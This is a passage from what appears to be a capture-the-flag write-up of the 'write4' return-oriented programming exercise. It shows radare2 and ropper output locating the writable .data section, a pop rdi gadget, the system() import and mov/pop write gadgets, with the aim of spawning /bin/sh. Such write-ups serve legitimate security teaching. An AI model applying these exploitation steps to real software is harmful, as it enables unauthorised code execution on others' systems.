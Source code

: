 Finding a home for our string should be fairly trivial, as we should be able to put it into the _.data_ section of the binary_._ As we can clearly see the perms on _.data_ is `-rw- (read/write).`
```
[0x00400650]> iS
[Sections]
Nm Paddr Size Vaddr Memsz Perms Name
00 0x00000000 0 0x00000000 0 ----
01 0x00000238 28 0x00400238 28 -r-- .interp
[... snip ...]
24 0x00001000 80 0x00601000 80 -rw- .got.plt
25 0x00001050 16 0x00601050 16 -rw- .data
26 0x00001060 0 0x00601060 48 -rw- .bss
[... snip ...]
30 0x00001800 738 0x00000000 738 ---- .strtab

[0x00400650]>
```
## Findings Gadgets

So to summarize:

- Finding write primitive to write string to _.data_ section
- system address
- pop\_rdi (In order to put the _/bin/sh_ string in a register)

Fortunately, we have ropper!

### pop\_rdi
```
root@linux:~# ropper -f write4 --search 'pop rdi'
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: write4
0x0000000000400893: pop rdi; ret;
```
### System()

According to the _afl_ output, pointing at `sym.imp.system`. It's located at `0x004005e0` so lets use that address.

### Write primitive

Now in order to be able to write to the `.data`_,_ we need find a mov gadget reading and writing from addresses we control. And pop gadgets to populate the registers.
```
root@linux:~# ropper -f write4 --search "mov|pop"
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: mov|pop

[INFO] File: write4
0x0000000000400821: mov dword ptr [rsi], edi; ret;
0x00000000004007ae: mov eax, 0; pop rbp; ret;
0x00000000004005b1: mov eax, dword ptr [rax]; add byte ptr [rax], al; add rsp, 8; ret;
0x00000000004005a5: mov eax, dword ptr [rip + 0x200a4d]; test rax, rax; je 0x5b5; call 0x640; add rsp, 8; ret;
0x000000000040073c: mov ebp, esp; call rax;
0x0000000000400809: mov ebp, esp; mov edi, 0x40090c; call 0x5e0; nop; pop rbp; ret;
0x00000000004007a4: mov edi, 0x4008d7; call 0x5d0; mov eax, 0; pop rbp; ret;
0x000000000040080b: mov edi, 0x40090c; call 0x5e0; nop; pop rbp; ret;
```